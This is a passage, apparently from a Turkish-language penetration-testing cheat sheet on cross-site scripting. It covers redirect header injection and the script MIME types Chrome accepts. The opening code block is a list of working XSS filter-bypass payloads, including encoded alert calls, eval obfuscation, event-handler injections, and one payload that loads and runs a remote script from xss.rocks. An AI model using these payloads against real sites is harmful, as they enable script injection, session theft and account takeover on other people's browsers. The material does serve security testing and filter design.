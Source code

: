 ```markup
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```
### 302 yanıtında başlık enjeksiyonu ile XSS

Eğer **302 Yönlendirme yanıtında başlıkları enjekte edebildiğinizi** bulursanız, **tarayıcının rastgele JavaScript'i çalıştırmasını sağlamayı** deneyebilirsiniz. Bu **kolay değildir** çünkü modern tarayıcılar, HTTP yanıt durum kodu 302 olduğunda HTTP yanıt gövdesini yorumlamaz, bu nedenle sadece bir cross-site scripting yükü işe yaramaz.

[**bu raporda**](https://www.gremwell.com/firefox-xss-302) ve [**şu raporda**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) Konum başlığı içinde birkaç protokolü nasıl test edebileceğinizi ve bunlardan herhangi birinin tarayıcının gövde içindeki XSS yükünü inceleyip çalıştırmasına izin verip vermediğini görebilirsiniz.\
Geçmişte bilinen protokoller: `mailto://`, `//x:1/`, `ws://`, `wss://`, _boş Konum başlığı_, `resource://`.

### Sadece Harfler, Sayılar ve Noktalar

Eğer javascript'in **çalıştıracağı** **callback**'i bu karakterlerle sınırlı olarak belirtebiliyorsanız. [**Bu gönderinin bu bölümünü okuyun**](./#javascript-function) bu davranışı nasıl kötüye kullanacağınızı öğrenmek için.

### XSS için Geçerli `<script>` İçerik Türleri

([**buradan**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/) alınmıştır) Eğer `application/octet-stream` gibi bir **içerik türü** ile bir script yüklemeye çalışırsanız, Chrome aşağıdaki hatayı verecektir:

> ‘[https://uploader.c.hc.lc/uploads/xxx'](https://uploader.c.hc.lc/uploads/xxx') adresinden script çalıştırmayı reddetti çünkü MIME türü (‘application/octet-stream’) çalıştırılabilir değil ve katı MIME türü kontrolü etkin.

Chrome'un **yüklenmiş bir script** çalıştırmasına destek verecek tek **Content-Type**'lar, [https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc](https://chromium.googlesource.com/chromium/src.git/+/refs/tags/103.0.5012.1/third\_party/blink/common/mime\_util/mime\_util.cc) içindeki **`kSupportedJavascriptTypes`** sabitindeki türlerdir.
```c
const char* const kSupportedJavascriptTypes[] = {
"application/ecmascript",
"application/javascript",
"application/x-ecmascript",
"application/x-javascript",
"text/ecmascript",
"text/javascript",
"text/javascript1.0",
"text/javascript1.1",
"text/javascript1.2",
"text/javascript1.3",
"text/javascript1.4",
```